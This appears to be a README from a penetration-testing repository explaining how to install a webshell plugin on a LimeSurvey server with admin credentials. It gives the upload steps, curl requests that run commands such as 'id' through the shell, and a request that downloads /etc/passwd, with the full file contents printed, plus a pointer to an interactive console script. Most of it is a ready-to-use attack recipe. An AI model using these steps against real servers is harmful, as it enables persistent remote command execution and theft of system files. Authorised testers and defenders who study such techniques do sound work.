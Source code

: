 # LimeSurvey - Upload a plugin

## Requirements

 - A valid **username and password** of a user with **admin rights** on the LimeSurvey.

## Exploitation

### Step 1: Upload the webshell plugin

Go to "Configuration --> plugins" page, at http://TARGET:10080/index.php/admin/pluginmanager/sa/index, and click on "Upload & install":

![](./imgs/upload_and_install.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://TARGET/upload/plugins/WebShell/webshell.php with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://TARGET:10080/upload/plugins/WebShell/webshell.php' --data "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","exec":"id"}
```

You can also access it by a GET request from a browser:

![](./imgs/exec_code_web.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://TARGET:10080/upload/plugins/WebShell/webshell.php with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://TARGET:10080/upload/plugins/WebShell/webshell.php' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```


### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](https://github.com/p0dalirius/LimeSurvey-plugin-webshell/blob/main/console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/163652719-eb16acba-6e2c-47a2-bc52-21ceff24dc09.mp4

## References
 - https://github.com/p0dalirius/LimeSurvey-plugin-webshell
